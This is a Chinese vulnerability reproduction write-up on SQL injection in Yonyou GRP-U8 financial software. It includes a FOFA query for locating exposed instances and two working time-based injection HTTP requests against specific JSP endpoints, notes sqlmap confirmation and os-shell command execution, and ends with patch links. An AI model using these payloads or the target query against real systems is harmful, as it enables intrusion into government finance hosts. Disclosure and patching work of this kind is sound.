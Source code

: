 
# 用友 GRP-U8 SQL 注入漏洞复现

### 0x01 产品简介

    用友 GRP-U8R10 行政事业[财务管理](https://so.csdn.net/so/search?q=%E8%B4%A2%E5%8A%A1%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)软件是用友公司专注于国家电子政务事业，基于云计算技术所推出的新一代产品，是我国行政事业财务领域最专业的政府财务管理软件。

### 0x02 漏洞概述

 用友 GRP-U8 的 bx\_historyDataCheck jsp、slbmbygr.jsp 等接口存在 SQL 注入漏洞，由于用友 GRP-U8 未对用户的输入进行有效的过滤，直接将其拼接进了 SQL 查询语句中，导致系统出现 SQL 注入漏洞，进一步利用可造成主机失陷。

### 0x03 影响范围

用友 GRP-U8R10 U8Manager B、C、G 系列产品 < 20230905

### 0x04 复现环境

FOFA：app="用友-GRP-U8"

![](assets/1698896249-edaf919c717165a5a368aa4eebcc4e7d.png)

### 0x05 漏洞复现

PoC-1

```cobol
GET /u8qx/slbmbygr.jsp?gsdm=1%27;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: {{Hostname}}
```

延时 5 秒

![](assets/1698896249-b5a2f434ce98fe738cea813113c65cdc.png)

Sqlmap 验证

![](assets/1698896249-ed6d0f831e46585a76b497b4f7df501d.png)

PoC-2

```cobol
POST /u8qx/bx_historyDataCheck.jsp HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

userName=';WAITFOR DELAY '0:0:6'--&class.module.classLoader.DefaultAssertionStatus=
```

 延时 6 秒

![](assets/1698896249-7a34c8453971549cf858d59a2b97ed0a.png)

利用 os-shell 命令执行

![](assets/1698896249-fad835809574dc9e2da5165bde02c05a.png)

### 0x06 修复建议

目前官方已发布更新补丁，获取安全补丁方式如下：

1\. 百度云盘：https://pan.baidu.com/s/1cQIxlUkpYAxE508EXjgQxA 提取码：n1xy

2\. 用友云盘：https://pan.yonyou.com/s/gUWlv8QkSsY 密码：a61h

下载【20230905-关于用友 GRP-U8 bx\_historyDataCheck jsp 存在 SQL 注入漏洞的解决方案.zip】

更新用友 GRP-U8 Manager 产品的 2023 年 10 月份（日期大于等于均可）标准补丁也可以修复此问题。
